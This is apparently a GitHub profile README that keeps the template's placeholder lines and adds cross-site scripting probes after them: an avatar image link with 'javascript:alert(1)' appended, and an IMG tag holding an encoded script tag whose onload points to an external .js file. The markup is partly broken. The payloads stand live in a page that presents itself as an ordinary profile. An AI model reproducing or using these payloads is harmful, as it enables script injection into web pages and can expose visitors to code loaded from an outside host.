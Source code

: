 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<img src='' alt=''>
<IMG SRC= img/%3cscript+onload='https://r89shi.github.io/teste.js'%3e >

](()
